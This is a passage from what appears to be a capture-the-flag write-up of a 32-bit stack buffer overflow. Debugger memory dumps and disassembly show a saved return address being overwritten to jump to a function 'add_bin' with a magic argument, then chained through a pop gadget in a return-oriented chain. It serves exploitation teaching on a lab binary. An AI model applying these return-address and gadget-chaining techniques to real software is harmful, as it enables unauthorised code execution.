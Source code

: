 Let's analyze the memory in more detail to understand the script's behavior:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
            esp
0xffffd6d0 [ec d6 ff ff] 39 d9 ff ff 01 00 00 00 38 d9 ff f7 ....9.......8...
0xffffd6e0 00 00 00 00 00 00 00 00 00 00 00 00 41 41 41 41 ............AAAA
0xffffd6f0 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd700 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd710 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd720 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd730 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd740 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
                                    ebp           ret
0xffffd750 41 41 41 41 41 41 41 41 [42 42 42 42] [61 84 04 08] AAAAAAAABBBBa...
0xffffd760 a6 85 04 08 ef be ad de 9c 84 04 08 99 84 04 08 ................
0xffffd770 be ba fe ca 0d f0 ad 0b 4d 84 04 08 00 ca e3 f7 .... .. M.......
0xffffd780 02 00 00 00 14 d8 ff ff 20 d8 ff ff 6a ae fe f7 ........ ...j...
0xffffd790 02 00 00 00 14 d8 ff ff b4 d7 ff ff 18 a0 04 08 ................
0xffffd7a0 2c 82 04 08 00 00 fd f7 00 00 00 00 00 00 00 00 ,...............
0xffffd7b0 00 00 00 00 c3 b1 4c c6 d3 d5 76 fe 00 00 00 00 ......L...v.....
0xffffd7c0 00 00 00 00 00 00 00 00 02 00 00 00 50 83 04 08 ............P...
```
Originally and after copying the argument (generated from the python script) to the stack,
the *base pointer* `ebp` has the value `0x42424242` (or "BBBB") which will lead to a segmentation error
when the stack returns. Note that we've rewritten the return address with the address of `add_bin`, thereby, after we reach the `ret` instruction we'll head there.

The first few instructions of function `add_bin` are as follows:
```
0x08048461 add_bin+0 push   %ebp
0x08048462 add_bin+1 mov    %esp,%ebp
0x08048464 add_bin+3 push   %edi
0x08048465 add_bin+4 cmpl   $0xdeadbeef,0x8(%ebp)
```
Leaving the stack as:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0xffffd6d0 ec d6 ff ff 39 d9 ff ff 01 00 00 00 38 d9 ff f7 ....9.......8...
0xffffd6e0 00 00 00 00 00 00 00 00 00 00 00 00 41 41 41 41 ............AAAA
0xffffd6f0 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd700 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd710 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd720 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd730 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0xffffd740 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
                                    esp           ebp
0xffffd750 41 41 41 41 41 41 41 41 [00 00 00 00] [42 42 42 42] AAAAAAAA....BBBB
            ret              magic
0xffffd760 [a6 85 04 08 ef] [be ad de 9c] 84 04 08 99 84 04 08 ................
0xffffd770 be ba fe ca 0d f0 ad 0b 4d 84 04 08 00 ca e3 f7 .... .. M.......
0xffffd780 02 00 00 00 14 d8 ff ff 20 d8 ff ff 6a ae fe f7 ........ ...j...
0xffffd790 02 00 00 00 14 d8 ff ff b4 d7 ff ff 18 a0 04 08 ................
0xffffd7a0 2c 82 04 08 00 00 fd f7 00 00 00 00 00 00 00 00 ,...............
0xffffd7b0 00 00 00 00 c3 b1 4c c6 d3 d5 76 fe 00 00 00 00 ......L...v.....
0xffffd7c0 00 00 00 00 00 00 00 00 02 00 00 00 50 83 04 08 ............P...
```
note that the registers `ebp` and `edi` have been pushed to the stack having the stack pointer `esp` at `0xffffd758`. Moreover, the return address of this function will be `0x080485a6` (ret) and `magic` is taken directly from the stack. After `add_bin` executes, the function returns to `0x080485a6` which we previously engineer to point to the following instructions:
```
0x080485a6 _fini+18 pop    %ebx
```
